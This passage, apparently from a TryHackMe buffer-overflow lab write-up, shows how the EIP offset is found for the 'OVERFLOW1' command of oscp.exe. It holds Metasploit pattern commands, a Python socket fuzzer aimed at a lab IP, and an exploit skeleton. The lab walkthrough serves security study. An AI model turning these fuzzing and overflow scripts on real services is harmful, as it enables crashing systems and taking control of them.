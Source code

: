 ## Find the offset to control EIP

Generated the pattern:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msf-pattern_create -l 5000 | xclip -sel c

```

Updated the fuzzer:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 "
#fuzz = "A" * 5000
fuzz = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9...'

print "Fuzzing with %s bytes" % len(fuzz)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(cmd + "/.:/"+fuzz)
	s.close()
except:
        print "\nCould not connect!"
```

![Crashed the app and extracted the EIP contents](../../zzz_res/attachments/Pasted_image_20210502174058.png)

Crashed the app and extracted the EIP contents

Calculated the offset necessary to overwrite EIP:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msf-pattern_offset -l 5000 -q 43386e43
[*] Exact match at offset 1974
```

Created the exploit skeleton:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "B" * 4
filler = "C" * (crash - (len(offset) + len(EIP) ))

payload = cmd + offset + EIP + filler

print "Fuzzing with %s bytes" % len(payload)
```
